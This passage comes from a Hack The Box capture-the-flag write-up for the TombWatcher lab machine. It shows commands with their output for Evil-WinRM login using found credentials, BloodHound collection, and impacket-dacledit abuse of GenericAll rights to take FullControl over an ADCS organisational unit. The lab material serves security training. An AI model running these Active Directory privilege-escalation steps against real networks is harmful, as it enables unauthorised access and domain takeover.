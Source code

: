Now we can use [Evil-WinRM](../../../3%20-%20Tags/Hacking%20Tools/Evil-WinRM.md) to access the machine with these credentials and retrieve the user flag:

```bash
-$ evil-winrm -i 10.10.11.72 -u john -p 'Hacker123!' 

*Evil-WinRM* PS C:\Users\john\Documents> cd ..
*Evil-WinRM* PS C:\Users\john> cd Desktop
*Evil-WinRM* PS C:\Users\john\Desktop> type user.txt
  HTB{{REDACTED_FLAG}}
```
# Administrator Privilege Escalation

## Bloodhound AGAIN

We can collect again:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/root]
└─$ bloodhound-python  -u 'JOHN' -p 'Hacker123!' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```

![Pasted image 20250923125727.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250923125727.png)

We can see `john` has `GenericAll` right over `ADCS`, we can abuse that to escalate privileges in the machine.

First we add `FullControl`:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/root]
└─$ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'Hacker123!'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250923-130501.bak
[*] DACL modified successfully!
```
## Change Cert_admin's Pass
